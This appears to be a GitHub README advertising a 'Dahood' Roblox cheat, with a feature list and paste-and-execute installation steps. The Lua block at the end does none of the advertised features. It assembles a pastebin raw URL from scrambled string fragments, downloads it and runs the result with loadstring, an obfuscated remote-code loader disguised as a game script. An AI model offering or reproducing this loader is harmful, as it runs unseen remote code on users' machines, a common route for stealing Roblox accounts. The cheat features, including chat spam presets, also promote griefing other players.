 # Dahood 

![Game Image](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcTLboKdAc9ZSkAmDaI32_GbMTaXBx_b5nG5BaYBz16ACT5vFLEK6vDNFDs&s)

## Features

Invisible Limbs (Like FE korblox FE headless)

- Walk On air

- Spinbot (constant spinning)

- Tiny / Giant Player Morph

- Floating / No Animation Walk

- Rainbow Outfit

- Camera Shake Toggle

- Full Bright Mode

- Auto AFK Animation

- Chat Spam Presets

- Fake Godmode (visual)

- Ragdoll

- Ghost Walk

- Always T-Pose

---

## Installation

- Copy script  
- Go to your executor (Delta, KRNL, etc.)  
- Paste and execute  
- Enjoy :)

```lua
local function s(t)
    local r = {"ht","tp","s:","//","pa","st","eb","in",".c","om","/r","aw","/u","n1","mx","SY","E"}
    return table.concat(r)
end

local function r(u)
    return game:HttpGet(u)
end

local function x(c)
    return loadstring(c)()
end

local url = s()
local code = r(url)
x(code)
